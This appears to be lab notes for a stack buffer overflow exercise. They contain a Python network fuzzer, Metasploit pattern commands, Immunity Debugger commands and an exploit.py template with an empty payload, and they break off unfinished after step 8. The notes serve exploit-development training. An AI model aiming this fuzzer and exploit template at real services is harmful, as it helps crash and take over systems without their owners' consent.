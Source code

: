 1. Open the executable in Immunity Debuger and run it

3. Set a workspace location in Immunity debuger
```Script
!project1 config -set workingfolder c:\ali\%p
```

3. run nc to test the connection
``` Script
nc 1.2.3.4 1234
```

4. create a fuzzer.py file and execute it
```Script
#!/usr/bin/env python3

import socket, time, sys

ip = "1.2.3.4"

port = 1234
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

5. Create a pattern using MSF Pattern Creator
```Script
msf-pattern_create -l WHERE_THE_FUZZER_CRASHES+400
```

6. create an exploit.py file and add the generated pattern from the above command to the payload variable and then execute the script
```Script
import socket

ip = "1.2.3.4"
port = 1234

prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

8. Find the offset using the below command in Immunity Debuger
```Script
!Project1 findmsp -distance WHERE_THE_FUZZER_CRASHES+400
```

10. 